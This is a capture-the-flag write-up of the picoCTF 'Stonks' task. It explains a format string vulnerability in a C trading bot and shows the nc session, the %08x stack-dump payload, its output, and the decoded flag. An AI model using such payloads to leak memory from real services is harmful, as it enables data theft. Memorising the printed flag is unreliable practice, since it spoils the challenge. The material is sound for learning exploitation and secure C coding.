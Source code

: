 # Stonks Write-up

This is my first format string vulnerability CTF task.

## The Challenge by MADSTACKS

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! `vuln.c nc` `mercury.picoctf.net 20195`.

## The Solution

We look at the `vuln.c` file. In the `buy_stonks()` function, we find a sketchy implementation of the `printf()` function. 
```C
char *user_buf = malloc(300 + 1);
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```
If you know C, then you might have noticed that the formatting argument is missing. This kind of code-implementation of the `printf()` function is a known vulnerability called format string vulnerability. As we will see, we can print parts of the stack memory by inputting to `user_buf`, otherwise known as the API token. 

We check if this vulnerability is indeed present by connecting via `nc`:
```console
(base) stange@ericjoshua ~ % nc mercury.picoctf.net 20195
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%08x
Buying stonks with token:
082c0430
```
The input `%08x` specifies to the `printf()` function to print 8 hexadecimal digits from the stack. Choosing 8 hexadecimal digits is optimal as computers usually have a word to be 4 bytes, in other words 8 hexadecimal digits. This is going to be crucial when we look at [endianness](https://en.wikipedia.org/wiki/Endianness). To find the flag, we will continue to look into `vuln.c`. The following code block is interesting:
```C
char api_buf[FLAG_BUFFER];
FILE *f = fopen("api","r");
if (!f) {
	printf("Flag file not found. Contact an admin.\n");
	exit(1);
}
fgets(api_buf, FLAG_BUFFER, f);
```
This is also present inside the `buy_stonks()` function and is present before asking for the API token. This suggests that the flag, stored in `api_buf`, can be found on the stack. We will try to print as much as possible from the stack and decode it afterwards.
```console
(base) stange@ericjoshua ~ % nc mercury.picoctf.net 20195
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x 
Buying stonks with token:
08cc23f0-0804b000-080489c3-f7f6cd80-ffffffff-00000001-08cc0160-f7f7a110-f7f6cdc7-00000000-08cc1180-00000001-08cc23d0-08cc23f0-6f636970-7b465443-306c5f49-345f7435-6d5f6c6c-306d5f79-5f79336e-35343036-64303664-ffc5007d-f7fa7af8-f7f7a440-f69aba00-00000001-00000000-f7e09ce9-f7f7b0c0-f7f6c5c0-f7f6c000-ffc51b38-f7dfa68d-f7f6c5c0-08048eca-ffc51b44-00000000-f7f8ef09-0804b000-f7f6c000
```
Decoding the hexadecimal above using [online tools](https://cyberchef.org/), we find the interesting text `ocip{FTC0l_I4_t5m_ll0m_y_y3n5406d06dÿÅ.}` which might have been influenced by the reversed endianness. After swapping, we get the flag `picoCTF{I_l05t_4ll_my_m0n3y_6045d60d}`.





